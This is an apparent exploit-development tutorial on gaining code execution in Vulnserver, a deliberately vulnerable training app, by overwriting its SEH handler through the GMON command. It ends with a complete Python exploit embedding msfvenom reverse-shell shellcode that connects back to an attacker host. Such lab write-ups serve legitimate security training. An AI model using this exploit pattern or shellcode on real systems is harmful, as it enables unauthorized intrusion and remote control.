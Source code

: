 :slug: vulnserver-gmon/
:date: 2020-06-16
:category: attacks
:subtitle: Exceptions are good
:tags: challenge, ethical hacking, pentesting, security, training, exploit
:image: cover.png
:alt: Photo by Roberto Gomez Angel on Unsplash
:description: In previous posts, we have seen different techniques to exploit Vulnserver commands. All of them have something in common: direct EIP overwrite. In this post, we will explore Structured Exception Handling (SEH) overwritting for taking control of the flow of our victim application.
:keywords: Bussiness, Information, Security, Protection, Hacking, Exploit, OSCE
:author: Andres Roldan
:writer: aroldan
:name: Andres Roldan
:about1: Cybersecurity Specialist, OSCP, CHFI
:about2: "We don't need the key, we'll break in" RATM
:source: https://unsplash.com/photos/KmKZV8pso-s

= GMON exploiting: Harnessing SEH

This is the fourth article on the series of exploiting `Vulnserver`,
a VbD (Vulnerable-by-Design) application in which you can practice Windows
exploit development.

In our previous posts, we have successfully exploited link:../vulnserver-trun/[TRUN]
and link:../vulnserver-gter-no-egghunter/[GTER] commands.
Both of them had something in common: direct EIP overwrite, in which
our buffer directly overwrote the `return address` on the stack frame
of the affected function with a `JMP` instruction to execute the code on
our controlled buffer.

In this post, we will exploit the `GMON` command using a Structured
Exception Handling (SEH) overwrite to take control of the flow of Vulnserver.

== Structured Exception Handling

SEH is a non-standard mechanism created by Microsoft to handle exceptions
of applications using an uniform structure. It allows C/C++ programs using
the well known exception handling syntax (`try-except-finally`) used by other
high-level imperative languages. This is an example:

[source,c]
----
__try {
    ....
    strcpy(mybuff, myinput);
}
__except (INSUFFICIENT_MEMORY) {
    my_exception_handler();
}
----

As you may imply, this code will try to execute `strcpy()` and if it fails
because `INSUFFICIENT_MEMORY`, it will execute `my_exception_handler()`.

As there may be many exceptions, some expliticy declared by the
application and other by the OS, the handlers are tied together by a chain
of `_EXCEPTION_REGISTRATION_RECORD` structures, the last one (identified by
`FFFFFFFF`) being the default handler.

When an exception ocurs, the OS will walk the SEH chain finding which of them
can handle that exception. If none of the handlers have that exception
registered, the default handler (`FFFFFFFF`) will be triggered.

The structure of `_EXCEPTION_REGISTRATION_RECORD` is:

[source,c]
----
typedef struct _EXCEPTION_REGISTRATION_RECORD
{
     PEXCEPTION_REGISTRATION_RECORD Next;
     PEXCEPTION_DISPOSITION Handler;
} EXCEPTION_REGISTRATION_RECORD, *PEXCEPTION_REGISTRATION_RECORD;
----

Where the `Next` parameter is a pointer to the next exception handler, also
called `nSEH` and the `Handler` parameter is a pointer to the handler itself.
We can see the exception handler's chain on a debugger:

image::seh1.png[SEH chain]

And on the stack, it is shown as:

image::seh2.png[SEH chain]

More information of SEH can be found on
link:https://docs.microsoft.com/en-us/cpp/cpp/structured-exception-handling-c-cpp?view=vs-2019[Microsoft's site]

== SEH exploiting

To oversimplify, the main goal to exploit a program using SEH is to have the
ability to overwrite the exception handler pointer
(`my_exception_handler()` in our example) of the vulnerable function  with
 a pointer to our own controlled code.

Some things must be in place in order for us to successfully exploit an
application using SEH:

. The application must have SEH built in. This is a compile-time option.
. Our buffer will be allowed to past far enough in the stack frame to reach
the SEH handler of the function.
. The application must be compiled with `SafeSEH=Off`

`SafeSEH` is a mechanism created since Windows XP that statically defines
the list of the allowed exception handlers, and if the application tries to
call something different, a crash will happen.

Ok, now with that brief summary of SEH, let's get our hands dirty.

== Fuzzing GMON

As with the other Vulnserver commands, the `GMON` command takes a single
parameter, so we can reuse our Spike fuzz template:

[source,c]
----
s_string("GMON ");
s_string_variable("*");
----

Remember that the `s_string` command will send an immutable string to
the fuzzed protocol and `s_string_variable` tells `Spike` to use
that string as a fuzz point.

And run it:

image::fuzz1.gif[Fuzzing GMON]

We got the crash!

And as with the other Vulnserver commands, it seems that 5060 bytes of data
triggered the crash:

image::wireshark1.png[Wireshark]

We can create our first proof-of-concept exploit:

.exploit.py
[source,python]
----
import socket

HOST = '192.168.0.20'
PORT = 9999

PAYLOAD = (
    b'GMON /.:/' +
    b'A' * 5000
)

with socket.create_connection((HOST, PORT)) as fd:
    fd.sendall(PAYLOAD)
----

Now run our exploit with `vulnserver.exe` attached to a debugger:

image::crash1.gif[PoC]

As you can see, we effectively crashed `vulnserver.exe` but EIP does not
seem to be mangled by our buffer.

However, if we look at the SEH chain table, we will see this:

image::seh3.png[Corrupted SEH]

That means that we effectively triggered an exception and overwrote the
exception handler with our buffer. If we trigger the exception handler (in
Immunity Debugger, it's done with `Shift+F9`), this will happen:

image::eip1.gif[EIP control]

We control EIP! That means that we have control over the execution flow again.

We can now exploit this.

== Exploiting

We first need to find the exact offset on where the SEH handler gets
overwritten. We can do that by creating a cyclic pattern
using `pattern_create.rb` from Metasploit:

[source,bash]
----
$ msf-pattern_create -l 5000
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac....
----

Let's add that pattern to our exploit:

[source,python]
----
import socket

HOST = '192.168.0.20'
PORT = 9999

PAYLOAD = (
    b'GMON /.:/' +
    b'<insert pattern here>'
)

with socket.create_connection((HOST, PORT)) as fd:
    fd.sendall(PAYLOAD)
----

And run it:

image::pattern1.gif[Pattern offset]

As you can see, the handler was overwritten with `346F4533`. To find
the offset in which the SEH handler get overwritten, we can
use `pattern_offset.rb`:

[source,bash]
----
$ msf-pattern_offset -q 346F4533
[*] Exact match at offset 3551
----

Great, the offset on which the SEH handler starts to be overwritten is `3551`.

To check that offset, we can inject:

. 3551 `A` characters
. 4 `B` characters
. 5000 - 3551 - 4 = 1445 `C` characters

If the SEH handler gets overwritten with our `B` buffer, we got it right. This
is our updated exploit:

[source,python]
----
import socket

HOST = '192.168.0.20'
PORT = 9999

PAYLOAD = (
    b'GMON /.:/' +
    b'A' * 3551 +
    b'B' * 4 +
    b'C' * 1445
)

with socket.create_connection((HOST, PORT)) as fd:
    fd.sendall(PAYLOAD)
----

And the result:

image::offset1.gif[Right offset]

Awesome!

Now, what would normally happen is to find a `JMP ESP` instruction.

However, let's look the state of the stack after triggering the exception
handler:

image::aftercrash1.png[Stack]

We can see several things here:

. `EIP` is `42424242`
. There are 8 bytes between the `ESP` at `0104EBA0` and our buffer at
`0104EBA8`
. So, if we'd run a `JMP ESP`, we'd land at a pointer which we don't control
and exploitation will fail.

So we need to find a way of removing those 8 bytes off of the stack in order
to redirect the execution flow to our buffer.

== POP/POP/RET

The x86 stack is a LIFO (Last In First Out) structure on where the last item
pushed on the stack is the first to be poped back. Each `PUSH`
instruction will exactly push 4 bytes to the stack and every `POP`
instruction will pop exactly 4 bytes off of the stack.

With that in mind, and knowning that we need to remove 8 bytes off of the
stack to then return to our controlled buffer, we need to find an
address that contains a sequence of these instructions:

[source,asm]
----
POP R32           ; R32 can be any 32 bits register
POP R32
RET
----

The first `POP` will remove the first 4 bytes of the stack, the next `POP` the
other 4 bytes. The `RET` will redirect the execution flow to our buffer.

We can find those 3 instructions using many ways. I will use `mona.py`:

[source,bash]
----
!mona seh -cp nonull -cm safeseh=off -o
----

This will tell `mona.py` to find `POP/POP/RET` instruction sequences and
omit addresses with null caracters (`-cp nonull`), omit addresses on
modules compiled with `SafeSEH` (`-cm safeseh=off`) and omit addresses
on modules of the OS (`-o`).

image::mona1.png[POP POP RET]

And we got 12 different options. We can choose any of those.
I will choose the sequence at `625011FB` just because :)

We can now update our exploit with that address:

[source,python]
----
import socket
import struct

HOST = '192.168.0.20'
PORT = 9999

PAYLOAD = (
    b'GMON /.:/' +
    b'A' * 3551 +
    # 625011FB    58                          POP EAX
    # 625011FC    5A                          POP EDX
    # 625011FD    C3                          RETN
    struct.pack('<L', 0x625011FB) +
    b'C' * 1445
)

with socket.create_connection((HOST, PORT)) as fd:
    fd.sendall(PAYLOAD)
----

And run it:

image::popret1.gif[POP POP RET]

Weeeeeeeh! We overwrote the SEH handler, triggered the exception and
redirected to a `POP/POP/RET` sequence that returned to our controlled buffer!

However...!

We landed only 4 bytes before our injected `POP/POP/RET` address. Remember the
`_EXCEPTION_REGISTRATION_RECORD` structure? It has 2 members, the SEH handler
which we are overwritting with the `POP/POP/RET` address and the pointer to
the next exception handler, also called `nSEH`. So, we landed at `nSEH`.

However, just after the injected address there's a good 43 bytes buffer and
before `nSEH` we had our 3500+ bytes buffer of `A`.

So, what's next? That's right! We must jump around again!

== Jump around

We only have 4 bytes to perform our first jump. Fortunately for us, short
jumps are only link:https://thestarman.pcministry.com/asm/2bytejumps.htm[2 bytes long]

So, we must perform a short jump of at least 8 bytes to get past *over* our
injected address and land on our `C` buffer. We can get the needed opcodes
using `nasm_shell.rb`:

[source,bash]
----
$ msf-nasm_shell
nasm > jmp short +0xa
00000000  EB08              jmp short 0xa
----

*Fun fact:* Note that we told to perform a 10 byte (`0xa`) jump and the
returned opcode was `EB08`. It's because the `JMP` will calculate the offset
including the length of the `JMP` instruction alone which is 2 bytes.

Ok, with our short jump opcode, with can update our exploit:

[source,python]
----
import socket
import struct

HOST = '192.168.0.20'
PORT = 9999

PAYLOAD = (
    b'GMON /.:/' +
    b'A' * (3551 - 4) +
    # JMP SHORT +0xa
    b'\xeb\x08' +
    # NOP NOP to fill the 4 bytes of nSEH
    b'\x90\x90' +
    # 625011FB    58                          POP EAX
    # 625011FC    5A                          POP EDX
    # 625011FD    C3                          RETN
    struct.pack('<L', 0x625011FB) +
    b'C' * 1445
)

with socket.create_connection((HOST, PORT)) as fd:
    fd.sendall(PAYLOAD)
----

And see if we could effectively jump over the SEH handler:

image::jmp1.gif[Short jump]

Yes! We are past our SEH handler. Now we have enough room of bytes to perform
a long jump backwards to the start of our `A` buffer. With the help of the
debugger, we get the needed offset simply by telling it to jump to the
start of our `A` buffer and letting it calculate the offset.

image::jmp2.gif[Long jump]

As you can see, the resultant bytes are `E9 16 F2 FF FF`.

Let's update our exploit with that:

[source,python]
----
import socket
import struct

HOST = '192.168.0.20'
PORT = 9999

PAYLOAD = (
    b'GMON /.:/' +
    b'A' * (3551 - 4) +
    # JMP SHORT +0xa
    b'\xeb\x08' +
    # NOP NOP to fill the 4 bytes of nSEH
    b'\x90\x90' +
    # 625011FB    58                          POP EAX
    # 625011FC    5A                          POP EDX
    # 625011FD    C3                          RETN
    struct.pack('<L', 0x625011FB) +
    b'C' * 2 +
    # JMP long backwards to the start of our 'A' buffer
    b'\xe9\x16\xf2\xff\xff' +
    b'C' * (1445 - 2 - 5)
)

with socket.create_connection((HOST, PORT)) as fd:
    fd.sendall(PAYLOAD)
----

And check it:

image::jmp3.gif[Long jump]

Great! All that's left is to insert a shellcode. Let's do that.

== Getting shell

We cat create a reverse shellcode using `msfvenom` from Metasploit, using:

[source,bash]
----
$ msfvenom -p windows/shell_reverse_tcp LHOST=192.168.0.18 LPORT=4444 EXITFUNC=seh -f python -v SHELL -b '\x00'
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
Found 11 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 351 (iteration=0)
x86/shikata_ga_nai chosen with final size 351
Payload size: 351 bytes
Final size of python file: 1807 bytes
SHELL =  b""
SHELL += b"\xba\x26\x9f\x12\x98\xda\xda\xd9\x74\x24\xf4\x58"
SHELL += b"\x33\xc9\xb1\x52\x83\xc0\x04\x31\x50\x0e\x03\x76"
SHELL += b"\x91\xf0\x6d\x8a\x45\x76\x8d\x72\x96\x17\x07\x97"
SHELL += b"\xa7\x17\x73\xdc\x98\xa7\xf7\xb0\x14\x43\x55\x20"
SHELL += b"\xae\x21\x72\x47\x07\x8f\xa4\x66\x98\xbc\x95\xe9"
SHELL += b"\x1a\xbf\xc9\xc9\x23\x70\x1c\x08\x63\x6d\xed\x58"
SHELL += b"\x3c\xf9\x40\x4c\x49\xb7\x58\xe7\x01\x59\xd9\x14"
SHELL += b"\xd1\x58\xc8\x8b\x69\x03\xca\x2a\xbd\x3f\x43\x34"
SHELL += b"\xa2\x7a\x1d\xcf\x10\xf0\x9c\x19\x69\xf9\x33\x64"
SHELL += b"\x45\x08\x4d\xa1\x62\xf3\x38\xdb\x90\x8e\x3a\x18"
SHELL += b"\xea\x54\xce\xba\x4c\x1e\x68\x66\x6c\xf3\xef\xed"
SHELL += b"\x62\xb8\x64\xa9\x66\x3f\xa8\xc2\x93\xb4\x4f\x04"
SHELL += b"\x12\x8e\x6b\x80\x7e\x54\x15\x91\xda\x3b\x2a\xc1"
SHELL += b"\x84\xe4\x8e\x8a\x29\xf0\xa2\xd1\x25\x35\x8f\xe9"
SHELL += b"\xb5\x51\x98\x9a\x87\xfe\x32\x34\xa4\x77\x9d\xc3"
SHELL += b"\xcb\xad\x59\x5b\x32\x4e\x9a\x72\xf1\x1a\xca\xec"
SHELL += b"\xd0\x22\x81\xec\xdd\xf6\x06\xbc\x71\xa9\xe6\x6c"
SHELL += b"\x32\x19\x8f\x66\xbd\x46\xaf\x89\x17\xef\x5a\x70"
SHELL += b"\xf0\xd0\x33\x7a\x12\xb9\x41\x7a\x03\x65\xcf\x9c"
SHELL += b"\x49\x85\x99\x37\xe6\x3c\x80\xc3\x97\xc1\x1e\xae"
SHELL += b"\x98\x4a\xad\x4f\x56\xbb\xd8\x43\x0f\x4b\x97\x39"
SHELL += b"\x86\x54\x0d\x55\x44\xc6\xca\xa5\x03\xfb\x44\xf2"
SHELL += b"\x44\xcd\x9c\x96\x78\x74\x37\x84\x80\xe0\x70\x0c"
SHELL += b"\x5f\xd1\x7f\x8d\x12\x6d\xa4\x9d\xea\x6e\xe0\xc9"
SHELL += b"\xa2\x38\xbe\xa7\x04\x93\x70\x11\xdf\x48\xdb\xf5"
SHELL += b"\xa6\xa2\xdc\x83\xa6\xee\xaa\x6b\x16\x47\xeb\x94"
SHELL += b"\x97\x0f\xfb\xed\xc5\xaf\x04\x24\x4e\xd1\xf5\xf4"
SHELL += b"\x5b\x46\xac\x6d\x26\x0a\x4f\x58\x65\x33\xcc\x68"
SHELL += b"\x16\xc0\xcc\x19\x13\x8c\x4a\xf2\x69\x9d\x3e\xf4"
SHELL += b"\xde\x9e\x6a"
----

And with that, we can have the final exploit:

[source,python]
----
import socket
import struct

HOST = '192.168.0.20'
PORT = 9999

# msfvenom -p windows/shell_reverse_tcp LHOST=192.168.0.18 LPORT=4444 EXITFUNC=seh -f python -v SHELL -b '\x00'
SHELL =  b""
SHELL += b"\xba\x26\x9f\x12\x98\xda\xda\xd9\x74\x24\xf4\x58"
SHELL += b"\x33\xc9\xb1\x52\x83\xc0\x04\x31\x50\x0e\x03\x76"
SHELL += b"\x91\xf0\x6d\x8a\x45\x76\x8d\x72\x96\x17\x07\x97"
SHELL += b"\xa7\x17\x73\xdc\x98\xa7\xf7\xb0\x14\x43\x55\x20"
SHELL += b"\xae\x21\x72\x47\x07\x8f\xa4\x66\x98\xbc\x95\xe9"
SHELL += b"\x1a\xbf\xc9\xc9\x23\x70\x1c\x08\x63\x6d\xed\x58"
SHELL += b"\x3c\xf9\x40\x4c\x49\xb7\x58\xe7\x01\x59\xd9\x14"
SHELL += b"\xd1\x58\xc8\x8b\x69\x03\xca\x2a\xbd\x3f\x43\x34"
SHELL += b"\xa2\x7a\x1d\xcf\x10\xf0\x9c\x19\x69\xf9\x33\x64"
SHELL += b"\x45\x08\x4d\xa1\x62\xf3\x38\xdb\x90\x8e\x3a\x18"
SHELL += b"\xea\x54\xce\xba\x4c\x1e\x68\x66\x6c\xf3\xef\xed"
SHELL += b"\x62\xb8\x64\xa9\x66\x3f\xa8\xc2\x93\xb4\x4f\x04"
SHELL += b"\x12\x8e\x6b\x80\x7e\x54\x15\x91\xda\x3b\x2a\xc1"
SHELL += b"\x84\xe4\x8e\x8a\x29\xf0\xa2\xd1\x25\x35\x8f\xe9"
SHELL += b"\xb5\x51\x98\x9a\x87\xfe\x32\x34\xa4\x77\x9d\xc3"
SHELL += b"\xcb\xad\x59\x5b\x32\x4e\x9a\x72\xf1\x1a\xca\xec"
SHELL += b"\xd0\x22\x81\xec\xdd\xf6\x06\xbc\x71\xa9\xe6\x6c"
SHELL += b"\x32\x19\x8f\x66\xbd\x46\xaf\x89\x17\xef\x5a\x70"
SHELL += b"\xf0\xd0\x33\x7a\x12\xb9\x41\x7a\x03\x65\xcf\x9c"
SHELL += b"\x49\x85\x99\x37\xe6\x3c\x80\xc3\x97\xc1\x1e\xae"
SHELL += b"\x98\x4a\xad\x4f\x56\xbb\xd8\x43\x0f\x4b\x97\x39"
SHELL += b"\x86\x54\x0d\x55\x44\xc6\xca\xa5\x03\xfb\x44\xf2"
SHELL += b"\x44\xcd\x9c\x96\x78\x74\x37\x84\x80\xe0\x70\x0c"
SHELL += b"\x5f\xd1\x7f\x8d\x12\x6d\xa4\x9d\xea\x6e\xe0\xc9"
SHELL += b"\xa2\x38\xbe\xa7\x04\x93\x70\x11\xdf\x48\xdb\xf5"
SHELL += b"\xa6\xa2\xdc\x83\xa6\xee\xaa\x6b\x16\x47\xeb\x94"
SHELL += b"\x97\x0f\xfb\xed\xc5\xaf\x04\x24\x4e\xd1\xf5\xf4"
SHELL += b"\x5b\x46\xac\x6d\x26\x0a\x4f\x58\x65\x33\xcc\x68"
SHELL += b"\x16\xc0\xcc\x19\x13\x8c\x4a\xf2\x69\x9d\x3e\xf4"
SHELL += b"\xde\x9e\x6a"

PAYLOAD = (
    b'GMON /.:/' +
    SHELL +
    b'A' * (3551 - 4 - len(SHELL)) +
    # JMP SHORT +0xa
    b'\xeb\x08' +
    # NOP NOP to fill the 4 bytes of nSEH
    b'\x90\x90' +
    # 625011FB    58                          POP EAX
    # 625011FC    5A                          POP EDX
    # 625011FD    C3                          RETN
    struct.pack('<L', 0x625011FB) +
    b'C' * 2 +
    # JMP long backwards to the start of our 'A' buffer
    b'\xe9\x16\xf2\xff\xff' +
    b'C' * (1445 - 2 - 5)
)

with socket.create_connection((HOST, PORT)) as fd:
    fd.sendall(PAYLOAD)
----

Let's check it:

image::shell1.gif[Success]

Our shell! We are getting good at it, aren't we?

== Conclusion

Exploiting applications using SEH overwriting is just a little different
than the simple EIP overwrite. However, you must take care of the little
details all the way down to get a successful exploitation.
